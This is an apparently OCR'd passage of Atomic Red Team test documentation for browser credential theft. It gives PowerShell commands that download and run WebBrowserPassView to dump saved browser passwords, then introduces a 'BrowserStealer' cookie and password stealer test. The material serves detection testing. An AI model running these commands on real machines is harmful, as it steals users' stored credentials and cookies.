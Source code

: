 **Supported Platforms:** Windows


**auto_generated_guid:** e359627f-2d90-4320-ba5e-b0f878155bbe





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| webbrowserpassview_path | Path to the WebBrowserPassView executable | string | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;WebBrowserPassView.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Start-Process "#{webbrowserpassview_path}"
Start-Sleep -Second 4
Stop-Process -Name "WebBrowserPassView"
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if WebBrowserPassView.exe exists in the specified path #{webbrowserpassview_path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{webbrowserpassview_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1555.003\bin\" -ErrorAction ignore -Force | Out-Null
Invoke-WebRequest https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1555.003/bin/WebBrowserPassView.exe -OutFile "#{webbrowserpassview_path}"
```




<br/>
<br/>

## Atomic Test #16 - BrowserStealer (Chrome / Firefox / Microsoft Edge)
[Github Repo](https://github.com/SaulBerrenson/BrowserStealer) Simple password/cookies stealer for chrome, edge, and gecko based browsers (30 listed working). This attack simulates stealing the data from the browser files and printing them to the command line.
If using to test with Firefox, if the browser is x64 you need to use the x64 build

**Supported Platforms:** Windows


**auto_generated_guid:** 6f2c5c87-a4d5-4898-9bd1-47a55ecaf1dd
